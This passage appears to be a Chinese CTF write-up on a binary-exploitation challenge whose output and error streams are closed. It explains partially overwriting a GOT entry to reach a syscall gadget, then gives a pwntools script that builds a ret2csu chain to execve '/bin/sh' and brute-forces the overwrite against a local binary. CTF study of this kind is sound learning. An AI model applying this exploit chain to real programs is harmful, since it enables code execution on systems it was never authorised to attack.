 又比如像这种明显ret2dl的题，输出流和错误流全关，防止常规ROP

![image-20220402232255605](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220402232255605.png)

read函数结束后，rax寄存器（即函数返回值）为读取的字符串长度。因此，我们可以通过控制字符串的读取来达到控制rax寄存器的目的。至于syscall，则可以由地位覆盖read或者close等函数的got表来实现。

&read+0xF和&close+0x12即为syscall，并且根据libc库函数地址后三位固定的特点，直接将函数got表低位覆盖即可以获得syscall之后就是常规的csu一把梭了，注意读取需要控制缓冲区

就是爆破有点不好出这个

```python
from pwn import*
# context(os='linux',arch='amd64',log_level='debug')

read_got=0x404028
close_got=0x404020
pop_rdi=0x401223

main=0x401176
csu1=0x40121A
csu2=0x401200
def pwn():
    r.recvline()
    payload=''
    payload+=p64(csu1)
    payload+=p64(0)
    payload+=p64(1)
    payload+=p64(0)
    payload+=p64(close_got)
    payload+=p64(1)
    payload+=p64(read_got)
    payload+=p64(csu2)
    payload+='a'*0x8
    payload+=p64(0)
    payload+=p64(1)
    payload+=p64(0)
    payload+=p64(0x404200)
    payload+=p64(59)
    payload+=p64(read_got)
    payload+=p64(csu2)
    payload+='a'*0x8
    payload+=p64(0)
    payload+=p64(1)
    payload+=p64(0x404200)
    payload+=p64(0)
    payload+=p64(0)
    payload+=p64(close_got)
    payload+=p64(csu2)
    r.send(('\x00'*0x28+payload).ljust(0x200,'\x00'))
    sleep(0.1)
    r.send('\xe2')
    sleep(0.1)
    r.send('/bin/sh\x00'+'a'*0x33)
    r.interactive()

times = 0
while 1:
    try:
        r=process('./test')
        pwn()
    except:
        times += 1
        print("="*8+str(times)+" times"+"="*8)
```